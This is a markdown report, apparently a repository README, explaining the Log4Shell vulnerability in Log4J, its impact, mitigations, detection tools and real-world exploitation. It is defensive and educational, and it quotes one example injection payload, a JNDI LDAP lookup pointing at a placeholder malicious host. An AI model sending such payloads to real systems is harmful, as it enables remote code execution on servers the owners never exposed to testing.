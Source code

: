 # 🧩 Log4J Vulnerability Report

## 📌 Overview

**Log4J** is a widely used Java-based logging utility developed by the Apache Software Foundation. In December 2021, a critical vulnerability known as **Log4Shell** (CVE-2021-44228) was discovered, allowing remote code execution (RCE) through malicious input in log messages.

## 🔍 What Is Log4Shell?

- The vulnerability stems from **JNDI lookups** in Log4J versions 2.0 to 2.14.1.
- Attackers could inject payloads like `${jndi:ldap://malicious.com/a}` into logs.
- Log4J would resolve this and potentially execute remote code.

![Log4Shell Exploit Flow]![alt text](image.png)

## ⚠️ Impact

- Affected millions of applications and services globally.
- Exploitable in default configurations.
- Used in attacks ranging from **crypto mining** to **data exfiltration**.

![Log4J Vulnerability Impact]![alt text](image-1.png)


## 🛡️ Mitigation Steps

- **Upgrade to Log4J 2.17.1 or later**.
- Disable JNDI lookups: `log4j2.formatMsgNoLookups=true`.
- Use Web Application Firewalls (WAFs) to block exploit patterns.
- Monitor logs and network traffic for suspicious activity.

## 🧪 Detection Techniques

- Scan logs for suspicious JNDI strings.
- Use tools like:
  - `log4j-scan`
  - `nmap` with custom NSE scripts
  - `Burp Suite` passive scanner plugins

## 🧰 Tools for Testing

| Tool        | Purpose                          |
|-------------|----------------------------------|
| `log4j-scan`| Automated detection of Log4Shell |
| `nmap`      | Network scanning for vulnerable services |
| `Burp Suite`| Manual and automated web testing |

## 🚨 Real-World Exploitation Cases

- Attackers weaponized Log4Shell against **Minecraft servers**, corporate **VPNs**, and **cloud platforms**.
- Some campaigns dropped **cryptominers** on vulnerable targets.
- Advanced threat actors used Log4Shell to establish **persistence** and **lateral movement** in high-value targets.



## 📚 References

- [Apache Log4J Official Site](https://logging.apache.org/log4j/2.x/)
- [Log4J Vulnerability Explained – Medium](https://medium.com/avmconsulting-blog/log4j-vulnerability-for-dummies-13af42ce4266)
- [Log4J Security Advisory – NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
